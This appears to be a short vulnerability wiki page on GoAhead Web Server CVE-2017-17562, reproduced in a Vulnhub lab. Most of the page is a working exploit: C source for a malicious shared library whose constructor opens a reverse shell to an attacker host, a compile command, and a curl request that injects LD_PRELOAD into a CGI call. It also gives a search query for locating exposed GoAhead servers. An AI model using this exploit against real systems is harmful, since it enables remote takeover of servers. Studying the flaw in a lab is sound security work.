 # Goahead LD_PRELOAD Remote Command Execution Vulnerability CVE-2017-17562

## Vulnerability Description

GoAhead supports running ASP, Javascript and standard CGI programs. This vulnerability comes from CGI programs.

This vulnerability uses the HTTP request parameter when the server initializes CGI, and uses a special parameter name LD_PRELOAD to hijack the libc library, thereby realizing remote command execution

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">GoAhead Web Server < 3.6.5</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="GoAhead"</span>

## Vulnerability reappears

Use the shooting range under Vulnhub to build

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657072904829-9775cbdc-249f-42d1-8d8b-f7f016600500-20220706105534293.png)

Compile malicious so file

```php
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  execve("/bin/bash", 0, 0);
}
gcc evil.c -fPIC -s -shared -o evil.so
```

Send evil.so malicious file

```php
curl -X POST --data-binary @evil.so https://xxx.xxx.xxx.xxx:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657073148130-d7efbdbc-8e97-49a7-bb81-fec751d8ef47.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657073168888-7499c581-7c81-4e43-ab46-87a35adb37b6.png)